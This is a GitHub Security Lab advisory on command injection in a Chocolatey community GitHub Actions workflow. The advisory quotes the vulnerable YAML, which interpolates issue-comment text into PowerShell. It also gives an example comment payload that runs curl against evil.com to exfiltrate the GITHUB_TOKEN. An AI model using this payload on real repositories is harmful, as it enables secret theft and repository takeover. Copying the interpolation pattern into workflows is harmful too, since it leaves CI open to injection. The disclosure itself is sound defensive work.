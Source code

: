 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-189: Command injection in chocolatey-community/chocolatey-package-requests workflow</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/16/2020: Report sent to owner</li>
  <li>29/10/2020: Owner acknowledges</li>
  <li>30/10/2020: Issue fixed</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The <a href="https://github.com/chocolatey-community/chocolatey-package-requests/blob/master/.github/workflows/handle-comments.yml">‘handle-comments.yml’ GitHub workflow</a> is vulnerable to arbitrary command injection.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/chocolatey-community/chocolatey-package-requests">chocolatey-community/chocolatey-package-requests GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p><a href="https://github.com/chocolatey-community/chocolatey-package-requests/blob/master/.github/workflows/handle-comments.yml">handle-comments.yml</a> from the master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-the-public-github-issue-comment-is-used-to-format-a-shell-command">Issue: The public GitHub issue comment is used to format a shell command</h3>

<p>When a user comments on a public issue with <code class="language-plaintext highlighter-rouge">/recheck</code> it automatically starts the <a href="https://github.com/chocolatey-community/chocolatey-package-requests/blob/master/.github/workflows/handle-comments.yml">handle-comments.yml</a> GitHub workflow. The comment text is used to format a powershell script.</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="na">recheck_pkgs</span><span class="pi">:</span>
    <span class="na">if</span><span class="pi">:</span> <span class="s">${{ (needs.comments.outputs.success == 'True' || startsWith(github.event.comment.body, '/recheck')) &amp;&amp; github.event.issue.state == 'open' }}</span>
<span class="nn">...</span>
    <span class="na">steps</span><span class="pi">:</span>
<span class="nn">...</span>
      <span class="pi">-</span> <span class="na">name</span><span class="pi">:</span> <span class="s">Validate Issue</span>
        <span class="na">run</span><span class="pi">:</span> <span class="pi">|</span>
          <span class="s">Import-Module "${{ github.workspace }}\scripts\validation.psm1"</span>
          <span class="s">if ("${{ github.event.comment.body }}" -match "^/recheck") {</span>
            <span class="s">Test-NewIssue -commentId ${{ github.event.comment.id }} -repository "${{ github.event.repository.full_name }}"</span>
          <span class="s">} else {</span>
            <span class="s">Test-NewIssue -issueNumber ${{ github.event.issue.number }} -repository "${{ github.event.repository.full_name }}"</span>
          <span class="s">}</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary command injection into the powershell script. For example a user may comment on an issue <code class="language-plaintext highlighter-rouge">/recheck" -match "^/recheck" -and (curl http://evil.com?t=$Env:GITHUB_TOKEN) -and "/recheck</code> which will exfiltrate the secret GitHub access token to the attacker controlled server, that may lead to the repository being compromised. To make the attack less visible the attacker may modify the comment later.</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-189</code> in any communication regarding this issue.</p>
